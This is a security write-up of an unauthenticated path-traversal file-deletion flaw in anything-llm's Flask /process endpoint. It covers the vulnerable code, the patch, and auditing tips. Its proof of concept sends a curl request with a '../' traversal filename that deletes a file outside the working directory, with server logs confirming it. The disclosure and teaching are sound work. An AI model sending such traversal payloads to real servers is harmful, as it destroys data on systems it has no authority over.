 


### Overview

This vulnerability was reported on [huntr.dev](https://huntr.com/bounties/afee3726-571f-416e-bba5-0828c815f5df) by [CharlB](https://huntr.com/users/charliebailly), this affects the [anything-llm] web application which setups an API on port 8888. This API is built using python and flask and contains a vulnerability allowing any unauthenticated user to delete any arbitrary file by sending a POST request to `/process` endpoint. 

[How to Identify Similar vulnerabilities](#how-to-identify-similar-vulnerabilities)

### Arbitrary File Deletion via Unvalidated Filename Input in /process Endpoint

Taking a quick look at how the API processes this request:

```py
[..snip..]
from scripts.watch.process_single import process_single

[..snip..]

WATCH_DIRECTORY = "hotdir"
@api.route('/process', methods=['POST'])
def process_file():
  content = request.json
  target_filename = content.get('filename')
  print(f"Processing {target_filename}")
  success, reason = process_single(WATCH_DIRECTORY, target_filename)
  return json.dumps({'filename': target_filename, 'success': success, 'reason': reason})
```
[api.py](https://github.com/Mintplex-Labs/anything-llm/blob/4a67cf21980aee4e5424382c0a90217f03d7bac6/collector/api.py)

A very high level overview of this is that the application parses the JSON data containing the `filename` object and pass it to the `process_single` function.

```py
import os
from .filetypes import FILETYPES
from .utils import move_source

RESERVED = ['__HOTDIR__.md']

# This script will do a one-off processing of a specific document that exists in hotdir.
# For this function we remove the original source document since there is no need to keep it and it will
# only occupy additional disk space.
def process_single(directory, target_doc):
  if os.path.isdir(f"{directory}/{target_doc}") or target_doc in RESERVED: return (False, "Not a file")
  
  if os.path.exists(f"{directory}/{target_doc}") is False: 
    print(f"{directory}/{target_doc} does not exist.")
    return (False, f"{directory}/{target_doc} does not exist.")

  filename, fileext = os.path.splitext(target_doc)
  if filename in ['.DS_Store'] or fileext == '': return False
  if fileext == '.lock':
    print(f"{filename} is locked - skipping until unlocked")
    return (False, f"{filename} is locked - skipping until unlocked")

  if fileext not in FILETYPES.keys():
    print(f"{fileext} not a supported file type for conversion. It will not be processed.")
    move_source(new_destination_filename=target_doc, failed=True, remove=True)
    return (False, f"{fileext} not a supported file type for conversion. It will not be processed.")

  FILETYPES[fileext](
    directory=directory,
    filename=filename,
    ext=fileext,
    remove_on_complete=True # remove source document to save disk space.
  )

  return (True, None)
```

[process_single.py](https://github.com/Mintplex-Labs/anything-llm/blob/4a67cf21980aee4e5424382c0a90217f03d7bac6/collector/scripts/watch/process_single.py)

The `process_single` function as shown above performs some basic check such as checking if the specified file exists on the system or not. It also checks if any of the requested file is a locked file, if it is just skip the processing. There's a special case that if a requested file is not in the allowed extension it attempt to move the requested file to a different directory i.e. `failed` or `processed`. As seen below, following piece of code handles the restricted extension in the requested file and call `move_source` function with `failed` and `remove` both set to `True` and `target_doc` parameter which is the specified file we sent via JSON body i.e. `filename`

```py
if fileext not in FILETYPES.keys():
    print(f"{fileext} not a supported file type for conversion. It will not be processed.")
    move_source(new_destination_filename=target_doc, failed=True, remove=True)
    return (False, f"{fileext} not a supported file type for conversion. It will not be processed.")
```

Checking `move_source` function, we see that if the `remove` and `failed` is set to `True` it will call `os.remove` with `new_destination_filename` as parameter which was `filename` in the previous code where this function was called.

```py
def move_source(working_dir='hotdir', new_destination_filename='', failed=False, remove=False):
  if remove and os.path.exists(f"{working_dir}/{new_destination_filename}"):
    print(f"{new_destination_filename} deleted from filesystem")
    os.remove(f"{working_dir}/{new_destination_filename}")
    return
```
[utils.py](https://github.com/Mintplex-Labs/anything-llm/blob/4a67cf21980aee4e5424382c0a90217f03d7bac6/collector/scripts/watch/utils.py)


### Proof of Concept

Coming to the vulnerability, as you may have noticed that the application doesn't have any logic to check for path traversal or input sanitization on the `filename` parameter. The thing is there's a limited impact but if done cleverly the impact is high, for instance we cannot trigger the vulnerability if the filename doesn't have an extension or if the extension is in allowed list as it will not trigger the `move_source` trigger to perform deletion. So, if we give something like `../../../../../../../etc/passwd` it won't work as the file does not have an extension but giving something like `../../../../../../etc/resolv.conf` as it will trigger the `move_source` function because `.conf` extension isn't allowed.

> The reason we are using `../` is because `os.remove(f"{working_dir}/{new_destination_filename}")` also takes `working_dir` which is `hotdir` into consideration

In this case, I will create a file name `resolv.conf` in `/tmp` folder and will attempt to delete it:

```r
ζ cp /etc/resolv.conf . 
ζ ls -la resolv.conf 
-rw-r--r-- 1 root root 53 Nov  3 00:30 resolv.conf
```

```sh
ζ curl -X POST -H 'Content-Type: application/json' -d '{"filename":"../../../../../../../tmp/resolv.conf"}' http://localhost:5000/process
{"filename": "../../../../../../../tmp/resolv.conf", "reason": ".conf not a supported file type for conversion. It will not be processed.", "success": false}
```
Checking the API logs:

```r
python3 wsgi.py
 * Serving Flask app 'api'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
Processing ../../../../../../../tmp/resolv.conf
.conf not a supported file type for conversion. It will not be processed.
../../../../../../../tmp/resolv.conf deleted from filesystem
127.0.0.1 - - [03/Nov/2023 00:30:48] "POST /process HTTP/1.1" 200 -
```

The file is successfully deleted from the system.

```r
ζ ls -la resolv.conf
ls: cannot access 'resolv.conf': No such file or directory
```

### Fix

A commit was made to the repository to patch this vulnerability and the patched code now sanitizes the specified parameter for any potential of directory traveral:

```py
import os
from flask import Flask, json, request
from scripts.watch.process_single import process_single
from scripts.watch.filetypes import ACCEPTED_MIMES

@api.route('/process', methods=['POST'])
def process_file():
  content = request.json
  target_filename = os.path.normpath(content.get('filename')).lstrip(os.pardir + os.sep)
  print(f"Processing {target_filename}")
  success, reason = process_single(WATCH_DIRECTORY, target_filename)
  return json.dumps({'filename': target_filename, 'success': success, 'reason': reason})
```

If we see how the modified code is dealing with the payloads that was used to traverse:

```py
>>> os.pardir
'..'
>>> os.pardir + os.sep
'../'
>>> os.pardir + os.sep
'../'
>>> target_filename = os.path.normpath("../../../../../../../password").lstrip(os.pardir + os.sep)
>>> target_filename
'password'
>>> target_filename = os.path.normpath("../../../../../../../password../../../../../").lstrip(os.pardir + os.sep)
>>> target_filename
''
```

### How to Idenitfy Similar Vulnerabilities?

This vulnerability is a cause of improper input validation although it is important to look into the fact how the application process things like files especially if it can somewhow be controlled. Another thing that makes this vulnerability of higher impact is that `/process` action can be perform unauthenticated, it is important to have some form of authentication if a critical action like this is being offered by API. The best way to look for these kind of vulnerabilities is to see all the file-based actions that application is performing and if we can control any aspect of this process. It is better to narrow it down to  functions which handle file-based operations, some of them are listed below:

> It is not an exhaustive list as anyone can write their own functions which may be a wrapper around following functions or others.

* open()
* close()
* read()
* write()
* readline()
* seek()
* tell()
* flush()

Modules:

* os
* shutil
* pathlib
* io
* csv
* json